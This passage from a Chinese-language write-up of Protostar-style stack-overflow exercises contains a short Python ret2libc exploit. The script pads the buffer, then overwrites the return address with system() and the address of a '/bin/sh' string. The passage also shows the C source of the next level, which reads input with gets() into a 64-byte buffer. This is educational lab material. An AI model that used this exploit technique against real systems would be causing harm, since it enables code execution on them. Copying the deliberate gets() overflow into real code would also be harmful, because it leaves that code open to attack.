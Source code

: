 那么可以直接写脚本了：

```python
import struct

payload = "A"*80
system_add = "\xb0\xff\xec\xb7"
system_ret = "abcd"
binsh_add = struct.pack("I",0xb7e97000 + 0x11f3bf)
print payload + system_add + system_ret + binsh_add
```

运行结果如下：

<div>
    <center><!--将图片和文字居中-->
    <img src="1-26.png"
         alt="1-26.png"
         style="100%"/>
    <br>  <!--换行-->
    Picture 1-26 <!--标题-->
    </center>
</div>

###### 0x116 stack7

源码：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```